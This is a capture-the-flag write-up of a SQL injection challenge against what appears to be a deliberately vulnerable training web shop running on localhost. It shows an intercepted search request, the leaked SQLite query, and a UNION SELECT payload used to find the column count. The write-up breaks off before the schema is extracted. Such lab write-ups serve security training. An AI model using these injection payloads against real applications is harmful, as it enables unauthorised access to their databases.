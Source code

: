 ## Database Schema
### Challenge: Exfiltrate the entire DB schema definition via SQL Injection.
### Category: Injection

Using burp, intercept a HTTP request for search product. Observe that the parameter `q=` is injectable.

When using burp repeater to modify the parameters `apple'` 

```
GET /rest/products/search?q=apple' -- HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 
...
```

We can observe from the error messages in response that this is a `sqlite3` database and the following sql statement is used for search function 

```sql
"SELECT * FROM Products WHERE ((name LIKE '%apple'%' OR description LIKE '%apple'%') AND deletedAt IS NULL) ORDER BY name"
```

Using the following sql statement we can `a%'))+union+select+1,2,3,4,5,6,7,8,9+--`
we can infer the number of columns which leads us to 9 since there is an error message `"SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns",`.

![sqli1.png](sqli.png)

![sqli2.png](sqli2.png)


